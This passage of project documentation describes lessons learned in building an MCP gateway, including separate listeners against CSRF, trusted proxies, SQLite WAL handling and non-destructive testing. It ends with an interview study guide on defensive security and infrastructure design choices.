  - Formalized Phase 6 readiness charter unblocking the in-dashboard chat agent.
- **Deliverables**: Formal completion reports in `docs/phase-5/` and `Resource/implementation/`.

---

## 4. Critical Real-World Gotchas & Lessons Learned

### Gotcha 1: The Ambient Credential Bleed Trap
**The Problem**: If a gateway listens on a single HTTP port and supports both browser cookies and machine API keys, any cross-site request made to that port automatically carries the user's cookie. If tool execution endpoints (`/mcp`) accept ambient cookies, malicious websites can execute unauthorized tools (e.g. creating fake products or refunding orders) using the victim's credentials.  
**The Solution**: Physical listener separation. Port 3000 (MCP) completely ignores cookies and mandates `Authorization: Bearer <mcp_live_...>`. Port 3001 (Browser API) mandates session cookies and validates CSRF headers.

---

### Gotcha 2: The Trusted Proxy Bridge Subnet Trap (`172.19.0.0/16`)
**The Problem**: In K3d/K3s local clusters, the Traefik Ingress controller runs as a HostPort daemon or container connected via a Docker bridge network (`172.19.0.0/16`). When Traefik proxies requests to the Gateway pod, the source IP seen by Express is the bridge IP (`172.19.0.2`), not the client's IP! If Express has strict IP-filtering or rate-limiting without trusting the reverse proxy bridge, all client requests get grouped under a single IP and trigger rate-limit lockouts.  
**The Solution**: Explicitly configured `gateway.trustedProxies` in Helm values:
```yaml
gateway:
  trustedProxies: "127.0.0.1,::1,10.42.0.0/16,10.43.0.0/16,172.19.0.0/16"
```
Express now correctly parses `X-Forwarded-For` and attributes actions to the real client IP.

---

### Gotcha 3: Why Native C++ Addons (`bcrypt`/`better-sqlite3`) Kill Container Portability
**The Problem**: Teams frequently reach for `npm install bcrypt better-sqlite3`. In local macOS or Ubuntu development, it compiles fine. But inside an Alpine Linux container, `node-gyp` crashes due to missing `musl` toolchains, Python versions, or ABI mismatches between Node versions.  
**The Solution**: Standardize on Node.js 24 LTS core modules:
- Built-in `node:sqlite` for database operations.
- Built-in `crypto.scrypt` for password hashing.
- Built-in `crypto.timingSafeEqual` for timing defenses.  
Result: The container image build is pure JavaScript/TypeScript transpilation—fast, lightweight, and 100% portable.

---

### Gotcha 4: SQLite WAL Shared Memory Stale Locks Across Pod Evictions
**The Problem**: When SQLite operates in WAL mode, it creates `/data/gateway.db-shm` (shared memory). If a Kubernetes pod is abruptly killed (`SIGKILL`) or rescheduled while another pod attempts to start, the new pod may encounter `SQLITE_BUSY` or file lock contention if multi-pod deployments are attempted.  
**The Solution**:
1. Strictly enforce `replicas: 1` with `strategy: { type: Recreate }` in Kubernetes Deployment.
2. Configure `PRAGMA busy_timeout = 5000;` on connection startup so temporary locks yield cleanly.
3. Clean companion files (`-wal` and `-shm`) during offline disaster recovery restores before copying validated snapshot files.

---

### Gotcha 5: Non-Destructive Storefront Verification Invariant
**The Problem**: In automated acceptance testing, test scripts often seed new data or delete existing records to test rollback behavior. In production or graded evaluation environments, deleting baseline records (Product IDs 10, 11, 12 or Order #14) causes irreversible assessment failure.  
**The Solution**: All Phase 5 testing protocols were written with **strict non-destructive contracts**:
- Tests create temporary entities with unique UUID suffixes and delete only those specific entities during cleanup.
- Dedicated verification checks confirm that Products 10, 11, 12 and Order #14 remain completely untouched at the end of the test run.

---

## 5. Study & Interview Preparation Guide

### 15 High-Level Technical Questions & Answers for Senior Full-Stack & Systems Engineers

#### Q1: What is the Model Context Protocol (MCP) and why is an MCP Gateway necessary?
> **Answer**: MCP is an open protocol standardizing how AI models and agents discover and execute tools, read resources, and fetch prompts from external servers over JSON-RPC 2.0. A central MCP Gateway is necessary because enterprise organizations operate dozens of independent tool servers (WooCommerce, CRM, Jira, ERP). Connecting AI agents directly to every tool server creates an $N \times M$ credential mesh, inconsistent authorization, fragmented audit logging, and lack of rate limiting. The Gateway acts as a reverse proxy providing centralized authentication, namespaced tool aggregation, concurrency control, and compliance auditing.

---

#### Q2: Why did we separate the Gateway into two independent HTTP server listeners on Ports 3000 and 3001?
> **Answer**: To establish physical separation of privilege and eliminate ambient authentication vulnerabilities. Port 3000 serves the MCP protocol plane exclusively for automated AI agents using Bearer API keys (`mcp_live_...`) and strictly rejects browser cookies. Port 3001 serves the human browser management plane (REST API and static SPA) using `HttpOnly` session cookies and CSRF headers. This architectural split guarantees that a browser visiting an external malicious website can never be exploited via CSRF to execute tools against internal business stores.

---

#### Q3: Why is Scrypt preferred over SHA-256 or bcrypt for storing user passwords in Node.js 24?
> **Answer**: SHA-256 is a fast cryptographic digest, making it vulnerable to brute-force attacks at billions of guesses per second via GPUs. Scrypt is a Key Derivation Function (KDF) that is deliberately CPU-hard and memory-hard ($N=16384, r=8, p=1$), requiring 16 MB of RAM per calculation, which neutralizes GPU and ASIC brute-forcing. While bcrypt is also a good KDF, it requires external native C++ compilation modules (`node-gyp`), introducing container build failures and security risks. Scrypt is built directly into Node.js 24 core (`node:crypto`), delivering enterprise security with zero third-party C++ build dependencies.

---

#### Q4: What is a timing attack, and how is it prevented during API key verification?
> **Answer**: Standard string comparison operators (`===`) compare strings byte-by-byte from left to right and terminate on the first mismatched character. An attacker measuring the response latency of an HTTP request down to CPU cycles can determine how many characters of an API key were correct before rejection, allowing them to guess the key character-by-character. We prevent this by hashing the incoming key and comparing it against the stored hash using `crypto.timingSafeEqual(bufA, bufB)`, which executes in constant time regardless of where or whether the buffers differ.

---

#### Q5: How does the gateway handle upstream service failures without bringing down other tools?
> **Answer**: Through the Circuit Breaker pattern. Each registered upstream tracks consecutive execution failures. If an upstream fails 5 consecutive times, its circuit breaker trips to `OPEN`. While open, subsequent tool calls directed to that upstream are rejected immediately without making network calls or consuming gateway sockets. The gateway's periodic health probe attempts canary connections; once healthy, the circuit resets to `CLOSED`. This prevents a slow or failing CRM service from exhausting connections and degrading healthy WooCommerce tools.

---

#### Q6: Explain the difference between `SameSite=Strict`, `SameSite=Lax`, and `SameSite=None` in cookie security.
> **Answer**: 
> - `Strict`: The cookie is never sent in cross-site requests, even when following a regular link from an external website (e.g. clicking a link in an email). Provides maximum CSRF protection but degrades user experience.
> - `Lax` (Phase 5 choice): The cookie is withheld on cross-site subrequests (like images, iframes, or cross-origin `POST` forms), but is sent when a user navigates to the origin site via a top-level link (`GET`). Provides robust CSRF protection for mutating endpoints while maintaining smooth navigation.
> - `None`: The cookie is sent on all cross-site requests (requires the `Secure` attribute).

---

#### Q7: What are the risks of using SQLite in Kubernetes, and how does Phase 5 achieve production resilience?
> **Answer**: SQLite uses file-level locking and does not support distributed multi-writer architectures. If multiple pods mount the same PVC and write concurrently, database corruption occurs. Phase 5 achieves resilience by:
> 1. Restricting the Kubernetes Deployment to `replicas: 1` with `strategy: { type: Recreate }`, ensuring terminating pods unmount the PVC before replacement pods start.
> 2. Initializing SQLite in Write-Ahead Logging (WAL) mode (`PRAGMA journal_mode = WAL;`) allowing concurrent non-blocking readers alongside a single writer.
> 3. Setting `PRAGMA busy_timeout = 5000;` to gracefully handle transient lock waits.
> 4. Implementing non-blocking online backups via SQLite's native `VACUUM INTO` command.

---

#### Q8: Why can't we simply copy `/data/gateway.db` using `cp` to perform a live backup?
> **Answer**: In SQLite WAL mode, newly committed transactions are written to `/data/gateway.db-wal`, while the main file contains older B-tree pages. An active shared-memory index (`.db-shm`) tracks uncheckpointed frames. Running a naive `cp` on `/data/gateway.db` captures an inconsistent state because WAL frames are not consolidated, leading to database corruption upon restoration. Live online backups must use `VACUUM INTO '<destination>'`, which atomically checkpoints WAL frames into a clean, standalone, verified database snapshot.

---

#### Q9: What is Two-Phase Audit Logging and why is it necessary for AI tool execution?
> **Answer**: Two-Phase Audit Logging records an action before and after execution:
> - **Phase 1 (Pre-execution)**: Generates a correlation ID and records the tool name, authenticated caller, and redacted parameters with status `IN_PROGRESS`. If the gateway pod or upstream service crashes during execution, a record of the attempted mutation still exists in SQLite.
> - **Phase 2 (Post-execution)**: Updates the record with execution duration (`duration_ms`), completion status (`SUCCESS` / `ERROR`), and response metadata.  
> Logging only after execution fails to capture crashed or timed-out requests, creating compliance blindspots.

---

#### Q10: How does Phase 5 comply with privacy regulations (GDPR/PCI-DSS) regarding audit logs?
> **Answer**: Through an automated PII Redaction Engine in the audit service. Before tool arguments are written to SQLite, the engine traverses the JSON payload and redacts sensitive property names (`email`, `billing_address`, `phone`, `password`, `token`) with `*** REDACTED ***`. Financial amounts, product IDs, and operational metadata are preserved for auditing, but customer private personal data is never stored in log tables.

---

#### Q11: How does the Gateway implement dynamic tool aggregation when an upstream is enabled or disabled?
> **Answer**: The `UpstreamManager` maintains an in-memory registry of active upstream SSE clients. When an administrator disables an upstream via `POST /api/v1/browser/upstreams/:id/disable`, the manager updates the database, tears down the client connection, and recompiles the in-memory tool catalog cache. Subsequent `tools/list` requests from AI clients return the filtered catalog instantly without restarting the gateway process.

---

#### Q12: Why did we choose Vanilla CSS over TailwindCSS or Component Libraries for the Dashboard?
> **Answer**: 
> 1. **Zero Runtime & Build Overhead**: Vanilla CSS requires zero PostCSS plugins, zero Tailwind configuration files, and zero utility-class purging steps.
> 2. **Complete Architectural Control**: CSS Custom Properties (variables) enable centralized tokenization for dark mode palettes, glassmorphism filters, and smooth micro-animations.
> 3. **Longevity & Maintainability**: Avoids framework churn and dependency vulnerabilities, aligning with the project's minimalist, high-reliability design philosophy.

---

#### Q13: How does the invitation-based onboarding model prevent unauthorized administrative account creation?
> **Answer**: Public user registration is completely disabled on the Gateway. New user creation is possible strictly through cryptographically random, single-use invitation tokens generated by an active administrator (`POST /api/v1/browser/invitations`). Tokens have a 7-day expiration timestamp and specify the designated role (`admin` or `member`). During redemption (`POST /api/v1/browser/invitations/redeem`), the token is marked redeemed in SQLite atomically with user credential creation, preventing token reuse.

---

#### Q14: How does Traefik Ingress provide perimeter security in front of the Gateway?
> **Answer**: Traefik acts as the cluster-edge reverse proxy enforcing virtual host routing:
> - Host `urumi-gateway.local` maps exclusively to Service port `http-mcp` (Port 3000).
> - Host `urumi-dashboard.local` maps exclusively to Service port `http-browser` (Port 3001).
> Any request arriving on `urumi-gateway.local` attempting to probe administrative paths (`/api/v1/browser/*`) is dropped with HTTP 404 by the Port 3000 listener. Combined with Kubernetes `NetworkPolicy`, external callers cannot bypass the Ingress or reach upstream microservices directly.

---

#### Q15: What is the handoff contract from Phase 5 to Phase 6?
> **Answer**: Phase 5 established the complete multi-tenant infrastructure, human dashboard, dual-listener perimeter, dynamic upstreams, and SQLite WAL persistence. The platform is formally accepted with 28/28 passing checks and preserved store data. Phase 6 is authorized to implement:
> 1. **In-Dashboard Chat Agent (`CHT-02` to `CHT-04`)**: Embedding a natural language conversational UI in `apps/dashboard` that executes tools through the Gateway's Port 3000 MCP interface as the authenticated user.
> 2. **External MCP Client Integration (`EXT-01` to `EXT-03`)**: Verifying external desktop tools (Claude Desktop, Cursor) communicating with the Gateway over streamable HTTP with Bearer API keys.
